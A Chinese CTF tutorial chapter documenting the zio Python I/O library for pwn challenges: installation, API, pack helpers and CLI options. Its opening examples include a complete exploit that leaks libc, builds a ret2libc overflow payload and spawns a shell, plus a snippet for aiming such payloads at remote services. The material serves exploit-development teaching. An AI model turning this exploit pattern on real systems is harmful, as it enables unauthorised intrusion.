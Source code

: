 # 2.4.2 zio

- [zio 简介](#zio-简介)
- [安装](#安装)
- [使用方法](#使用方法)
- [zio 在 CTF 中的应用](#zio-在-ctf-中的应用)

## zio 简介

[zio](https://github.com/zTrix/zio) 是一个易用的 Python io 库，在 Pwn 题目中被广泛使用，zio 的主要目标是在 stdin/stdout 和 TCP socket io 之间提供统一的接口，所以当你在本地完成 利用开发后，使用 zio 可以很方便地将目标切换到远程服务器。

zio 的哲学：

```python
from zio import *

if you_are_debugging_local_server_binary:
    io = zio('./buggy-server')          # used for local pwning development
elif you_are_pwning_remote_server:
    io = zio(('1.2.3.4', 1337))         # used to exploit remote service

io.write(your_awesome_ropchain_or_shellcode)
# hey, we got an interactive shell!
io.interact()
```

官方示例：

```python
from zio import *
io = zio('./buggy-server')
# io = zio((pwn.server, 1337))

for i in xrange(1337):
    io.writeline('add ' + str(i))
    io.read_until('>>')

io.write("add TFpdp1gL4Qu4aVCHUF6AY5Gs7WKCoTYzPv49QSa\ninfo " + "A" * 49 + "\nshow\n")
io.read_until('A' * 49)
libc_base = l32(io.read(4)) - 0x1a9960
libc_system = libc_base + 0x3ea70
libc_binsh = libc_base + 0x15fcbf
payload = 'A' * 64 + l32(libc_system) + 'JJJJ' + l32(libc_binsh)
io.write('info ' + payload + "\nshow\nexit\n")
io.read_until(">>")
# We've got a shell;-)
io.interact()
```

需要注意的的是，zio 正在逐步被开发更活跃，功能更完善的 pwntools 取代，但如果你使用的是 32 位 Linux 系统，zio 可能是你唯一的选择。而且在线下赛中，内网环境通常都没有 pwntools 环境，但 zio 是单个文件，上传到内网机器上就可以直接使用。

## 安装

zio 仅支持 Linux 和 OSX，并基于 python 2.6, 2.7。

```text
$ sudo pip2 install zio
```

`termcolor` 库是可选的，用于给输出上色：`$ sudo pip2 install termcolor`。

## 使用方法

由于没有文档，我们通过读源码来学习吧，不到两千行，很轻量，这也意味着你可以根据自己的需求很容易地进行修改。

总共导出了这些关键字：

```python
__all__ = ['stdout', 'log', 'l8', 'b8', 'l16', 'b16', 'l32', 'b32', 'l64', 'b64', 'zio', 'EOF', 'TIMEOUT', 'SOCKET', 'PROCESS', 'REPR', 'EVAL', 'HEX', 'UNHEX', 'BIN', 'UNBIN', 'RAW', 'NONE', 'COLORED', 'PIPE', 'TTY', 'TTY_RAW', 'cmdline']
```

zio 对象的初始化定义：

```python
def __init__(self, target, stdin = PIPE, stdout = TTY_RAW, print_read = RAW, print_write = RAW, timeout = 8, cwd = None, env = None, sighup = signal.SIG_DFL, write_delay = 0.05, ignorecase = False, debug = None):
```

通常可以这样：

```python
io = zio(target, timeout=10000, print_read=COLORED(RAW,'red'), print_write=COLORED(RAW,'green'))
```

内部函数很多，下面是常用的：

```python
def print_write(self, value):
def print_read(self, value):

def writeline(self, s = ''):
def write(self, s):

def read(self, size = None, timeout = -1):
def readlines(self, sizehint = -1):
def read_until(self, pattern_list, timeout = -1, searchwindowsize = None):

def gdb_hint(self, breakpoints = None, relative = None, extras = None):

def interact(self, escape_character=chr(29), input_filter = None, output_filter = None, raw_rw = True):
```

zio 里的 `read` 和 `write` 对应到 pwntools 里就是 `recv` 和 `send`。

另外是对字符的拆包解包，是对 struct 库的封装：

```python
>>> l32(0xdeedbeaf)
'\xaf\xbe\xed\xde'
>>> l32('\xaf\xbe\xed\xde')
3740122799
>>> hex(l32('\xaf\xbe\xed\xde'))
'0xdeedbeaf'

>>> hex(b64('ABCDEFGH'))
'0x4142434445464748'
>>> b64(0x4142434445464748)
'ABCDEFGH'
```

`l` 和 `b` 就是指小端序和大端序。这些函数可以对应 pwntools 里的 `p32()`，`p64()`等。

当然你也可以直接在命令行下使用它：

```text
$ zio -h

usage:

    $ zio [options] cmdline | host port

options:

    -h, --help              help page, you are reading this now!
    -i, --stdin             tty|pipe, specify tty or pipe stdin, default to tty
    -o, --stdout            tty|pipe, specify tty or pipe stdout, default to tty
    -t, --timeout           integer seconds, specify timeout
    -r, --read              how to print out content read from child process, may be RAW(True), NONE(False), REPR, HEX
    -w, --write             how to print out content written to child process, may be RAW(True), NONE(False), REPR, HEX
    -a, --ahead             message to feed into stdin before interact
    -b, --before            don't do anything before reading those input
    -d, --decode            when in interact mode, this option can be used to specify decode function REPR/HEX to input raw hex bytes
    -l, --delay             write delay, time to wait before write
```

## zio 在 CTF 中的应用

何不把使用 pwntools 的写的 exp 换成 zio 试试呢xD。
